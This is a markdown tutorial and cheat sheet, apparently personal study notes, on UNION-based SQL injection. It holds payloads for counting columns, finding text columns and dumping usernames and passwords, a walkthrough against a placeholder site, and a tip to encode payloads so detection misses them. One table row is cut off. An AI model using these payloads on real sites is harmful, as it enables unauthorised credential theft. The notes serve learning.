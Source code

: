 ## 🧩 UNION-Based SQL Injection

>Use HackTovert on BurpSuite to pass Payload (encoding is necessary to avoid detection)

SQL injection using `UNION` lets attackers **combine results from different queries** and pull data from _other tables_ into the visible page.

---

## 📌 What is a UNION SQLi?

> UNION allows appending results from **another SELECT query** to the original one.

### 🧪 Example:

`SELECT name, price FROM products `
`UNION  SELECT username, password FROM users`

➡️ App will now show usernames and passwords **in place of** or **in addition to** product names and prices.

---

## ⚠️ UNION SQLi Requirements

To work, the injected `UNION SELECT` must meet **2 key conditions**:

1. **Same number of columns** as original query
2. **Compatible data types** in each column

---

## 🔍 How to Find Column Count


### 🔹 1. Using `ORDER BY` Method

Keep increasing column index until error:
`' ORDER BY 1-- ' ORDER BY 2-- ' ORDER BY 3-- ...`

✅ When it errors, the previous number was the actual column count.

---

### 🔹 2. Using `UNION SELECT NULL`

Inject increasing `NULL`s:

`UNION SELECT NULL-- `
`UNION SELECT NULL,NULL-- '`
`UNION SELECT NULL,NULL,NULL--`
`...`

✅ When it works, you found the correct number of columns.

> 💡 NULL works for all types → increases success rate.

---

## 🔎 Detecting Valid String Columns

You need at least one **text-compatible column** to extract string data (like `username`, `email`, etc.)

### 🧪 Inject strings one by one:

`UNION SELECT 'a',NULL,NULL-- `
`UNION SELECT NULL,'a',NULL-- `
`UNION SELECT NULL,NULL,'a'--`

✅ Page displays `a` somewhere → that column can hold text.

❌ Error like:  
`Conversion failed when converting 'a' to INT` → column is numeric only.

---

## 📥 Retrieving Table Data

Once column count and text-compat columns are known:

### 🧨 Inject:

`' UNION SELECT username, password FROM users--`

✅ Will display usernames and passwords if injected correctly.

> You need correct **table name** and **column names**.

---

## 🧪 Concatenating Data in One Column

If only **one column** is shown in the app, **combine fields**:

### 🔹 On Oracle:

`' UNION SELECT username || '~' || password FROM users--`

➡️ Output: `admin~s3cure`, `john~1234`, etc.

### 🔹 On MySQL:

`' UNION SELECT CONCAT(username, '~', password) FROM users--`

---

## 🧭 Oracle-Specific Syntax

- Oracle requires `FROM DUAL` for SELECT without a table:

`' UNION SELECT NULL,NULL FROM DUAL--`

---

## 💬 Comment Styles

|DBMS|Comment Syntax|
|---|---|
|**MySQL**|`--` (MUST include space), or `#`|
|**PostgreSQL**|`--`|
|**Oracle**|`--`|
|**MSSQL**|`--`, `/* */`|

---

## 🔧 Useful Union Payloads Cheat Sheet

|Goal|Payload|
|---|---|
|Detect column count|`' ORDER BY 1--` → keep increasing|
|Match column count|`' UNION SELECT NULL,NULL--`|
|Find string-compatible col|`' UNION SELECT 'a',NULL--` (one-by-one)|
|Dump data|`' UNION SELECT username, password FROM users--`|
|Single column output|`' UNION SELECT CONCAT(username, ':', password) FROM users--`|
|Oracle version|`' UNION SELECT username|

## 🧪 Testing UNION SQLi on a Website (Step-by-Step with Payload Examples)

Let’s say you find this URL on a website:

`https://vuln-site.com/products?category=Gifts`

You suspect that `category` parameter is vulnerable.

---

### 🔹 Step 1: **Test for SQLi Vulnerability**

**Payload:**
`https://vuln-site.com/products?category=Gifts'`

➡️ If the page crashes, shows a SQL error, or behaves weirdly → it’s likely injectable.

---

### 🔹 Step 2: **Find Number of Columns Using ORDER BY**

Try incrementally increasing values until error:

`https://vuln-site.com/products?category=Gifts' ORDER BY 1-- 
`https://vuln-site.com/products?category=Gifts' ORDER BY 2--`
`https://vuln-site.com/products?category=Gifts' ORDER BY 3--`
` ...`

➡️ If `ORDER BY 4--` causes an error, then the correct number of columns is **3**.

---

### 🔹 Step 3: **Confirm with UNION SELECT NULLs**

Now test if UNION SELECT works with that number:

`https://vuln-site.com/products?category=Gifts' UNION SELECT NULL,NULL,NULL--`

➡️ If no error, page is likely vulnerable to UNION SQLi.

---

### 🔹 Step 4: **Test Which Columns Are Visible (Text-Compatible)**

Replace one NULL with `'a'` at a time:

`https://vuln-site.com/products?category=Gifts' UNION SELECT 'a',NULL,NULL-- https://vuln-site.com/products?category=Gifts' UNION SELECT NULL,'a',NULL-- https://vuln-site.com/products?category=Gifts' UNION SELECT NULL,NULL,'a'--`

➡️ If you see `'a'` on the page, that column is **reflected and can hold string data**.

---

### 🔹 Step 5: **Dump Data from Users Table**

Now try dumping real data (if table and column names are known or guessed):

`https://vuln-site.com/products?category=Gifts' UNION SELECT username, password, NULL FROM users--`

> Adjust `NULL` and position based on number of columns and visible ones.